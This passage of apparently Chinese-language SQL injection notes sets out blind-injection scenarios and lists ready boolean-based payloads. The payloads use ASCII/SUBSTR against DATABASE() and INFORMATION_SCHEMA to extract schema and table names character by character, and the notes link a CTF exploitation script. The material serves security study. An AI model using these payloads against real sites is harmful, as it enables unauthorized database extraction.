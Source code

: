 ### payload
判断表名中第一个字符是否小于128的语句如下：
```
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```
## 报错注入
## 盲注
### 盲注场景
在许多情况下，通过前面的测试会发现页面没有回显提取的数据，但是根据语句是否执行成功与否会有一些相应的变化。
+ 正确/错误的语句使得页面有适度的变化。可以尝试使用布尔注入
+ 正确语句返回正常页面，错误的语句返回通用错误页面。可以尝试使用布尔注入。
+ 提交错误语句，不影响页面的正常输出。建议尝试使用延时注入。

几种简单的判断语句，在真实利用中需要根据情况而变化:
+ CASE
+ IF()
+ IFNULL()
+ NULLIF()

### 布尔盲注-基于响应
提交一个逻辑判断语句，来推断一个个的信息位。由于注入需要（一般）一个个字符的进行，所以需要利用脚本，或者工具（比如burp suite）。以下是：

#### payload
```
// i 用于提取每一个位，j 用于判断其对应的ASCII码值的范围。
// k ，结合limit，选择偏移为k的行
// **中可以填上其他的select语句，比如查询表名，列名，数据。一次类推。
// SUBSTR() 也可以换成 SUBSTRING()

' OR (SELECT ASCII(SUBSTR(DATABASE(),i,1) ) < j) #

' OR (SELECT ASCII(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) ) < j) #  

' OR (SELECT SUBSTR(DATABASE(),i,1) < j) #

' OR (SELECT SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j) #  

' OR SUBSTR((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT k,1),i,1) < j #

...
```
#### 脚本
脚本利用，可见：[ctf盲注利用脚本](https://chybeta.github.io/2017/07/16/XMAN%E9%80%89%E6%8B%94%E8%B5%9B-2017-web-writeup/#CTF%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95)
要点：
+ 注意编码问题
+ 注意异常处理
+ 注意边界处理

